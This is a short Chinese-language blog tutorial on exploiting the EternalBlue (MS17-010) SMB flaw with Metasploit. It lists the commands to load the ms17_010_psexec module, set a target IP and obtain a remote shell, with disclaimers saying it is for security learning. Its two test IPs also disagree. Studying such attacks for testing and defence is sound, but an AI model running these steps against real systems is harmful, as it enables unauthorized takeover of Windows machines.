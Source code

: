 ```yaml
---
title: 【笔记】攻击具有 永恒之蓝 漏洞的Windows
date: 2019-11-16 17:14:28
tags:
categories:
- Penetration Tests
---
```


## 前言

永恒之蓝（英语：EternalBlue）是美国国家安全局开发的漏洞利用程序，于2017年4月14日被黑客组织影子掮客泄漏。该工具利用445/TCP端口的档案分享协议的漏洞进行散播。[维基百科](https://wikipedia.hk.wjbk.site/zh-hans/永恒之蓝)

<font color="red">本文仅用于网络信息防御学习</font>

<!-- more -->

## 声明

<font color="#FF0000">本文章仅用于网络安全渗透测试学习，请勿用于其他用途</font>

## 准备工作

- 安装并配置好的 Metasploit Framework （[传送门](https://feiju12138.github.io/2019/11/16/安装配置Metasploit-Framework)）

- 一台有"永恒之蓝"漏洞的Windows电脑

## 开始攻击

- 由于本文为测试，所以默认已知被攻击的电脑ip为"192.169.1.1"

- 启动 Metasploit Framework

``` bash
msfconsole
```

![01.png](/images/20191116171428/01.png)

- 查看攻击永恒之蓝漏洞的工具

``` bash
search ms17_010
```

- 使用其中一款工具，输入"y"确认

``` bash
exploit/windows/smb/ms17_010_psexec
```

![02.png](/images/20191116171428/02.png)

- 设置目标ip

``` bash
set RHOST 192.168.1.1
```

- 开始攻击

``` bash
exploit
```

- 如果攻击成功，即可获得控制权

## 取得Shell

- 取得shell后，即可在目标电脑执行命令行操作

``` bash
shell
```

## 完成

## 参考文献

[知乎——周毅刚](https://zhuanlan.zhihu.com/p/35793142)

